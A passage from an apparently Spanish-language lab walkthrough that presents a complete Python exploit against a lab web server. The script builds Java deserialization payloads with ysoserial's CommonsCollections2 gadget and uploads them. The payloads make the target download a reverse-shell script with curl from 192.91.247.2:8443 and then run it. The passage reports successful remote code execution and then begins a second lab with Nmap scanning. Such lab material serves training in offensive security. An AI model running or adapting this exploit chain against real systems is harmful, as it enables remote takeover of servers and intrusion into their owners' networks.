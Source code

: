 A continuación puedes encontrar el código completo del exploit.

Guárdelo como exploit.py y ejecute el archivo.

Mandar:

```
python exploit.py
```

Código:

```
import requests
import time
import threading
import os
def readfile(filename):
  url = "http://demo.ine.local/upload/index.php?sent=OK"
  r = requests.get(url)
  print("[+] Used filename: " + filename)
  print(r.text)
  print("\n")

def upload(filename):
  url = "http://demo.ine.local/upload/upload.php"
  files ={'uploaded_file': open(filename, 'rb')}
  r = requests.post(url, files=files)
payload = 'CommonsCollections2'
commands = [
'"curl http://192.91.247.2:8443/rev.py -O rev.py"',
'"chmod +x rev.py"',
'"./rev.py"'
]

for command in commands:
  os.system("java -jar /root/Desktop/tools/ysoserial/ysoserial-master-SNAPSHOT.jar " + payload + " " + command + " > " + payload)
  x=threading.Thread(target=upload, args=(payload,))
  x.start()
  readfile(payload)
  time.sleep(2) 
```

> Ejecución remota de código lograda con éxito.

### Laboratorio 2

Solución

Paso 1: Inicie el laboratorio. Espere hasta que el laboratorio esté listo. Una vez que el laboratorio esté listo, la interfaz de Kali Linux estará disponible en el navegador.

Paso 2: Escanee la red con Nmap y recopile la información sobre la máquina de destino.

Utilice el siguiente comando para obtener información sobre los puertos y servicios abiertos en la red.

